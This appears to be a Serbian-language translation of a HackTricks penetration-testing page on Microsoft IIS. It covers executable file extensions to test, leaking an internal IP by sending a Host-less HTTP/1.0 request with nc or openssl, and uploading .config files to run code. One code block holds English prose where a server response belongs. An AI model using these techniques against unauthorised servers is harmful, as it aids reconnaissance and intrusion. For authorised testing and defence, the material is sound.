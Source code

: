 # IIS - Internet Information Services

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

Testirajte ekstenzije izvršnih datoteka:

* asp
* aspx
* config
* php

## Otkrivanje interne IP adrese

Na bilo kom IIS serveru gde dobijete 302, možete pokušati da uklonite Host zaglavlje i koristite HTTP/1.0, a unutar odgovora Location zaglavlje može vam ukazati na internu IP adresu:

```
nc -v domain.com 80
openssl s_client -connect domain.com:443
```

Odgovor otkriva internu IP adresu:

```
The response from the server includes the internal IP address of the system. This information can be useful for an attacker as it provides insight into the network infrastructure. By analyzing the internal IP address, an attacker can potentially identify other vulnerable systems within the network and plan further attacks. It is important to ensure that internal IP addresses are not leaked in server responses to prevent unauthorized access to the network.
```

Odgovor servera uključuje internu IP adresu sistema. Ove informacije mogu biti korisne napadaču jer pružaju uvid u mrežnu infrastrukturu. Analizirajući internu IP adresu, napadač može potencijalno identifikovati druge ranjive sisteme unutar mreže i planirati dalje napade. Važno je osigurati da interne IP adrese ne budu otkrivene u odgovorima servera kako bi se sprečio neovlašćen pristup mreži.

```
GET / HTTP/1.0

HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Location: https://192.168.5.237/owa/
Server: Microsoft-IIS/10.0
X-FEServer: NHEXCHANGE2016
```

## Izvršavanje .config datoteka

Možete otpremiti .config datoteke i koristiti ih za izvršavanje koda. Jedan način da to uradite je da dodate kod na kraj datoteke unutar HTML komentara: [Preuzmite primer ovde](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config)
